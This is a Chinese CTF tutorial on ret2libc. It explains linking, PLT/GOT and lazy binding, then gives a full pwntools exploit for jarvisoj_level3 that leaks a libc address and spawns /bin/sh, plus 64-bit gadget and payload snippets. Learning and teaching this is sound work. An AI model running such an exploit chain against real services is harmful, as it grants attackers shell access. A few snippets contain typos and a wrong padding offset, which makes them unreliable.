



# 基本ROP：ret2libc

> 参考资料
>
> [CTF-wiki:基本ROP](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/)
>
> [语雀：PWN入门（1-3-1）-基本ROP-介绍](PWN入门（1-3-1）-基本ROP-介绍)
>
> 《深入理解计算机系统》

## 0x01 关于 ret2libc

ret2libc 这种攻击方式主要针对的是使用**动态链接**的程序。并且在正常情况下，我们无法在程序内找到类似`system()`或者`execve()`这样的函数去拉起`/bin/sh`程序。这种时候，我们就可以考虑使用ret2libc。因为动态链接的程序会在运行的时候调用动态链接库中的代码，而这个动态链接库中几乎包含了所有我们能够用到的库函数。如果我们有方法调用动态链接库中的`system()`构造出`system("/bin/sh")`，我们就可以getshell。

## 0x02 关于动态链接

### 编译过程[^1]

编译器将源程序文件，也就是你的源代码文件，编译成一个可执行程序，需要经历以下四个步骤：

1. 预处理

2. 编译

3. 汇编

4. 链接

下面，我们就用`hello.c`这个代码做一个示范

```c
/*hello.c*/
#include <stdio.h>

int main() {
    printf("hello world\n");
    return 0;
}
```

#### 预处理

这一步依靠的是`预处理器（cpp）`，其根据以字符`#`开头的命令，修改原始的C程序（源代码）。在这里，`#include <stdio.h>`就是告诉预处理器，读取`stdio.h`头文件中的内容，将其插入到程序文本中，结果就是得到了另一个C程序，通常以`.i`作为文件扩展名。

#### 编译阶段

该阶段，`编译器（cc1）`，将文本文件`hello.i`翻译成文本文件`hello.s`，它包含一个汇编程序。该程序包含函数main的定义，如下所示：

```asm
main:
	subq $8, %rsp
	movl $.LC0, %edi
	call puts
	movl %0, %eax
	addq $8, %rsp
	ret
```

> 这里的汇编使用的是AT&T语法，与常见的intel语法不同
> 不同编译器版本/优化等级/是否 PIE，生成的汇编会不同；开启优化后 `printf("...\\n")` 可能被替换为 `puts("...")` 

#### 汇编阶段

这个阶段，`汇编器（as）`会将`hello.s`翻译成机器语言，并把这些指令打包成一种叫*可重定向目标程序（relocatable object program）*的格式，并将结果保存在文件`hello.o`文件中。`hello.o`是一个二进制文件。

#### 链接阶段

##### 静态编译

在 `hello.c` 被编译成 `hello.o` 之后，`hello.o` 里对 `printf` 的调用只是一个**未解析符号引用（undefined symbol）**：它知道“我要调用一个叫 printf 的函数”，但并不知道 `printf` 的最终地址在哪里。

在静态链接阶段，`链接器（ld）`会把 `hello.o` 与所需的静态库（典型是 `libc.a`、`libgcc.a` 等）一起参与链接。静态库 `.a` 本质上是很多个 `.o` 目标文件的“打包归档”，其中就有预编译好的`printf.o`。链接器会执行两件关键工作：

1. **符号解析（Symbol Resolution）**
    链接器扫描 `hello.o` 的符号表，发现 `printf` 是“未定义符号”。于是它会去静态库（例如 `libc.a`）中查找哪个成员目标文件提供了 `printf` 的定义。一旦找到，就把那个成员 `.o`（以及它依赖的其他成员，比如与格式化输出/IO 相关的实现）**抽取并合并**进最终输出文件中。

2. **重定位（Relocation）**

   被抽取进来的这些目标文件在各自的 `.o` 里使用的地址也是“相对的/未最终确定的”。链接器会把所有需要的代码段、数据段合并成最终的 ELF 布局，然后把 `call printf` 这类引用修补成“最终可执行文件中 printf 的真实地址/相对跳转位移”，并修复所有需要修补的指针与引用。

一般来说，现代编译器默认都是动态链接模式，如果想要变成静态链接，比如在gcc中，需要添加`-static`选项。

这样做的好处就是，由于所需的代码都已经存放到程序中了，所以不会因为缺少环境（共享库）而导致程序无法运行。但是这样做的坏处就是，程序的体积会比使用动态链接的程序大不少。

##### 动态链接

在动态链接中，链接器不会将`printf`从`libc.a`中拷贝进`hello.o`，而是：

- 在 ELF 里记录“我需要 libc 这个共享库”（也可以理解为，记录程序依赖哪些共享库）
  - `.dynamic` 里会有 `DT_NEEDED` 条目（例如 `libc.so.6`）
- 在 ELF 里记录“运行时由谁来装载这些共享库”
  - 程序头 `PT_INTERP` 指定动态加载器（比如 `ld-linux-x86-64.so.2`）
- 为外部函数调用准备一套**间接跳转机制**：PLT/GOT
  - 代码里对 `printf/puts` 这类外部函数的调用，通常会变成调用 `printf@plt`
  - `printf@plt` 再通过 `printf@got.plt` 里存的地址跳到真正的 `printf` 实现

运行时：内核把控制权交给 ld.so，由它把库映射进内存并完成修补

当你运行 `hello`时

1. **内核加载主程序**（把 ELF 各段映射进内存）

   看到 `PT_INTERP`，就启动动态加载器 `ld.so`（也就是 `ld-linux-*.so.*`）

2. **ld.so 读取 `.dynamic`**

   根据 `DT_NEEDED` 找到依赖库（如 `libc.so.6`），按搜索路径规则加载（`RUNPATH/RPATH`、环境变量、系统默认路径等）

3. **映射共享库到进程地址空间**

   这一步配合 ASLR，会导致 libc 的**基址随机**

4. **处理重定位（Relocation）**

   修补全局变量指针、GOT 表项、以及某些必须在启动时确定的引用

5. **解析外部符号（Symbol Resolution）**

   解析 `printf` 到底落在 libc 的哪个地址（还要考虑符号版本等）


简单来说就是，可以将共享库理解成一个公共的工具箱。在系统中，有很多个这样的工具箱，有的负责标准化输入输出，有的负责加密，有的负责网络通信……对于动态链接程序，它不需要像静态链接程序那样将所需要的代码都复制过来。它只需要列一个清单：我要哪个工具箱，版本是多少，我需要这个工具箱中的哪些工具……，在其运行的时候，动态加载器，就会根据这个清单，从系统中搬来这个工具箱，放到程序的内存中（这样说只是方便理解，实际上不是复制，而是映射）。这样，哪怕程序中没有相关的代码，但是依赖于动态库，依旧可以完成编写好的功能。

但是，在程序运行的时候，并不会一次性将所有需要的函数都解析进程序，而是使用**延迟绑定机制**。

## 0x03 延迟绑定

关于延迟绑定，会涉及到两张表：**PLT表**和**GOT表**。

### PLT与GOT

- PLT（Procedure Linkage Table）

  - 是一段段小函数（stub / trampoline）

  - 每个外部函数通常对应一个 PLT 条目：puts@plt、printf@plt…

  - 功能：通过 GOT 里存的地址跳转到真实函数，并支持“第一次调用时去解析”。

- GOT（Global Offset Table）

  - 是一张表（内存里的数组）

  - 表项存放“某个符号最终解析到的真实地址”

  - 对外部函数来说，真正被 PLT 用的那一块 GOT，通常在节里叫 .got.plt

默认情况下，很多系统会启用延迟绑定：

- 第一次调用 `printf`：
  - `call printf@plt`
  - `printf@plt` 通过 GOT 发现还没拿到真实地址，于是进入 PLT0 → 交给 ld.so 的 resolver
  - ld.so 找到 libc 中 `printf` 的真实地址，并把它**写回** `printf@got.plt`（这叫 fixup）
  - 然后跳到真实 `printf` 执行
- 第二次以及以后再调用 `printf`：
  - `call printf@plt` → `jmp *printf@got.plt`
  - GOT 已经是 libc 真实地址了，直接过去，不再解析

## 0x04 ret2libc

如果掌握了上面的内容，那么`ret2libc`也就很好理解了。

在常见的`ret2libc`题目中，目标服务器系统都默认开启了ASLR（地址空间布局随机化）。由于共享库是**映射**到目标程序的内存中的，ASLR会随机化这部分内存的基址。每次运行时都会改变。不过好在，共享库中的函数相对于基址的偏移是不变的。前提是我们能确定远程所用的那份 libc（题目提供或通过泄露地址匹配得到），这样才能查到 `system()` 与 `"/bin/sh"` 的偏移并计算真实地址。我们就可以得知这二位在内存中的真实地址。进而构造出一条ROP链来getshell。

那么问题来了，如何获得共享库的基地址呢？很简单，有上文中的延迟绑定可知，GOT 表项在符号解析完成后会保存对应函数的真实地址，因此我们只要泄露某个已解析函数的 GOT 表项内容，就能通过 `libc_base = leaked_addr - offset` 算出 libc 基址。

一般来说，我们使用`puts`和`write`这类输出函数来泄露got表中的地址。这两个函数都会接受一个指针参数，不过不会检查该指针指向的内存中到底是什么。所以说。我们可以将got表中存放某个共享库函数真实地址的地址最为参数传给这两个函数，他们会将真实地址输出到标准输出中，我们捕捉并解析即可获取该函数的真实地址。
pwntools库中已经内置好了获取程序中某函数plt表地址和got表地址的方法

```python
from pwn import *
elf = ELF(./xxxx) # 初始化ELF对象
puts_plt = elf.plt['puts']	# 获取puts@plt的地址
puts_got = elf.got['pyts']	# 获取puts@got.plt的地址
```

### 例子

这里用BUUCTF中的jarvisoj_level3和jarvisoj_level3_x64，分别看32位和64位的区别

#### jarvisoj_level3

##### 静态分析

```c
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  write(1, "Input:\n", 7u);
  return read(0, buf, 0x100u);
}
```

这里有一个栈溢出漏洞，这里使用`write`输出，一般来说，`write`由于可以制定输出的大小，比`puts`好用不少。所以这里我们选用`write`来泄露puts的地址。

这个程序比较简单，知到这些之后，我们就可以直接来写EXP了

```python
from pwn import *
e = ELF('./level3')

write_plt = e.plt['write']  # 获取write@plt的地址
write_got = e.got['write']  # 获取write@got的地址
main = 0x08048484           # main函数的地址
```

不推荐使用`e.sym['main']`来获取main函数的地址，不太准，会导致段错误

接下来该构造rop链去泄露存放在got表中的write的真实地址了（其实你也可以用其他的解析后的函数的地址，不局限于write@got或者puts@got）

```python
leak = b'a' * (0x88 + 0x4)  # 填充，用来覆盖返回地址前的栈帧空间
leak += p32(write_plt)  # 将返回地址覆盖成write@plt的地址
leak += p32(main)       # 返回地址
leak += p32(1) + p32(write_got) + p32(4)    # write函数的参数，
											#fd=1(STDOUT),buf=write_got, count=4 

io.recvuntil(b"Input:\n")
io.sendline(leak)
```

这里基本上就是八股文，**填充 + puts@plt 或 write@plt + 返回地址 + 参数...**。

但是在32位正常的函数调用过程中，call指令负责将EIP寄存器中的值压入栈中保存现场，但是，在这里。我们是将原来的返回地址覆盖成了write@plt，强行让EIP指向了write@plt进而达到“调用”write的目的，但是，这并不是一次真正的调用。

在程序执行完`ret`后，ESP中的值会自动+4，此时ESP指向的正我们已经写入栈中的**返回地址**，也就是main函数的地址。





接下来，EIP会跳转到write的真实地址上来执行相关代码，我们来看看write的汇编



可以看到，其中的PUSH和POP指令是成对出现的，由于PUSH执行后会让ESP中的值减去一个机器字长，而POP在执行后会让ESP中的值加一个机器字长。成对出现这就意味着ESP不增也不减，在执行完write的代码后，依旧指向我们布置好的返回地址，在这里是main。当执行write中的RET后，返回地址（main）的值就会POP到EIP中，继续执行mian函数的代码。

回归正题，将构造好的leak发送给程序后，程序会打印出write的真实地址，但是是字节型，不能直接使用，所以我们需要用`u32()`解包，将其还原为整数型。

```python
write_addr = u32(io.recv(4))
io.success("write_addr:" + hex(write_addr)) #hex(),转化为16进制
```

我十分建议在接受并解析之后跟一条这样的日志输出，他可以将括号内的内容输出道debug模式中。

下面我们来计算libc的基址，system和/bin/sh的真实地址，

```python
    libc_base = write_addr - libc.sym['write']
    system_addr = libc_base + libc.sym['system']
    bin_sh_addr = libc_base + next(libc.search(b'/bin/sh\x00'))
    io.success("libc_base: " + hex(libc_base))
    io.success("system_base: " + hex(system_addr))
    io.success("bin_sh_addr: " + hex(bin_sh_addr)) 
```

日志建议跟上

关于libc_base的计算和其中函数真实地址计算，可以使用LibcSearch这样的工具，也可以将提前准备好或者题目下发的libc.so.6像ELF文件一样.

```python
libc = ELF('./libc.so.6')
```

我这里采用的就是这种

由于我们使用main函数地址作为返回地址，所以，程序会再执行一次main函数，这一次，我们就可以直接构造payload并发送了

```python
payload = b'a'*(0x88 + 0x4) + p32(system_addr) + p32(main) + p32(bin_sh_addr)
    io.recvuntil(b"Input:\n")
    io.sendline(payload)
```

这里的`main`还是一样，是返回地址，但是在发送完payload（如果正确）之后就会直接切换到`/bin/sh`的进程，不会再执行main函数，这样写只是防止一些不必要的错误。

##### EXP

```python
#!/bin/python
# _*_ coding: utf-8 _*_

from pwn import *

context(arch = 'i386', os = 'linux')
context.terminal = ['konsole', '-e']
context.log_level = 'debug'
context.binary = './level3'
e = ELF('./level3')
libc = e.libc
# libc = ELF('')
if args['RE']:
    io = remote()
else:
    io = process('./level3')

def debug():
    gdb.attach(io)
    pause()
# ===== main =====
def main():
    write_plt = e.plt['write']  # 获取write@plt的地址
    write_got = e.got['write']  # 获取write@got的地址
    main = 0x08048484           # main函数的地址

    leak = b'a' * (0x88 + 0x4)  # 填充，用来覆盖返回地址前的栈帧空间
    leak += p32(write_plt)      # 将返回地址覆盖成write@plt的地址
    leak += p32(main)           # 返回地址
    leak += p32(1) + p32(write_got) + p32(4)    # write函数的参数：fd=1(STDOUT), buf=write_got, count=4 

    io.recvuntil(b"Input:\n")
    io.sendline(leak)

    write_addr = u32(io.recv(4))
    io.success("write_addr:" + hex(write_addr))

    libc_base = write_addr - libc.sym['write']
    system_addr = libc_base + libc.sym['system']
    bin_sh_addr = libc_base + next(libc.search(b'/bin/sh\x00'))
    io.success("libc_base: " + hex(libc_base))
    io.success("system_base: " + hex(system_addr))
    io.success("bin_sh_addr: " + hex(bin_sh_addr)) 

    payload = b'a'*(0x88 + 0x4) + p32(system_addr) + p32(main) + p32(bin_sh_addr)
    io.recvuntil(b"Input:\n")
    io.sendline(payload)

# ===== exec =====
if __name__ == '__main__':
    main() 
    io.interactive()
```

#### jarvisoj_level3_x64

##### 静态分析

```c
ssize_t vulnerable_function()
{
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF

  write(1, "Input:\n", 7uLL);
  return read(0, buf, 0x200uLL);
}
```

其实和上一道题一样，只不过是64位。

大体思路一致，但是需要注意的是**64位程序中，前6个参数使用寄存器传参**，顺序是*rdi rsi, rdx,rcx r8, r9*。

但是我们构造的ROP链都是写到栈中的，所以，我们就需要找一些带有`pop rdi`、`pop rsi`的gadget，来帮助我们将栈中参数pop到寄存器中。

这里我们使用的工具是`ROPgadget`

```bash
ROPgadget --binary ./level3_x64 --only 'pop|ret'
```

`--binary ./level3_x64`：指定目标二进制文件路径

`--only 'pop|ret'`：使用正则表达式过滤，只显示包含`pop`或`ret`指令的gadget

输出如下

```bash
Gadgets information
============================================================
0x00000000004006ac : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006ae : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006b0 : pop r14 ; pop r15 ; ret
0x00000000004006b2 : pop r15 ; ret
0x00000000004006ab : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006af : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400550 : pop rbp ; ret
0x00000000004006b3 : pop rdi ; ret
0x00000000004006b1 : pop rsi ; pop r15 ; ret
0x00000000004006ad : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400499 : ret

Unique gadgets found: 11
```

我们需要这两条
```bash
0x00000000004006b3 : pop rdi ; ret
0x00000000004006b1 : pop rsi ; pop r15 ; ret
```

有一个`pop r15`，不用怕，到时候喂一个0给他就行，我们不需要它。

还缺一个设置rdx的gadget，但是并没有，不着急，我们来看`vulnerable_function`的汇编代码

```asm
.text:00000000004005E6                 push    rbp
.text:00000000004005E7                 mov     rbp, rsp
.text:00000000004005EA                 add     rsp, 0FFFFFFFFFFFFFF80h
.text:00000000004005EE                 mov     edx, 7          ; n
.text:00000000004005F3                 mov     esi, offset aInput ; "Input:\n"
.text:00000000004005F8                 mov     edi, 1          ; fd
.text:00000000004005FD                 call    _write
.text:0000000000400602                 lea     rax, [rbp+buf]
.text:0000000000400606                 mov     edx, 200h       ; nbytes
.text:000000000040060B                 mov     rsi, rax        ; buf
.text:000000000040060E                 mov     edi, 0          ; fd
.text:0000000000400613                 call    _read
.text:0000000000400618                 leave
.text:0000000000400619                 retn
```

可以看到其中有一个`mov     edx, 200h `，而edx是rdx的低32位，虽然用用的是低32位，高32位会被清零，所以这里，可以理解位rdx的值被设置成了200。

rdi，rsi，rdx都有了，下面就可以设置payload了

这里我就补展示完整的payload了，只说两个关键的点

1. payload的构造，

   由于在64位下，使用寄存器传参，所以在call之前，会把相关寄存器中的的值设置为参数的值。所以这里顺序是，先覆盖，再用`pop...`gadget布置寄存器，然后再写需要调用的函数赶回地址

   ```python
   leak=b'a' * (0x88 + 0x8)+p64(pop_rdi)+p64(1)+p64(pop_rsi_r15)+p64(write_got)+p64(0)+p64(write_plt)+p64(main)
   ```

2. 捕捉并解析地址

   ```python
   write_addr=u64(i.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
   ```

   如果像这样，一次性输出的字节较多，就需要先切片再解析

   - `i.recvuntil('\x7f')`第一次出现为`\x7f`的字节时，返回其与其之前的字节
   - `[-6:]`：取最后6个字节
   - `.ljust(8, b'\x00')`：右填充0x00到8字节长度，因为`u64`要求其参数必须为8字节

如上，为ret2libc的介绍与利用方式。

[^1]:该部分参考了部分《深入理解计算机系统》中的内容
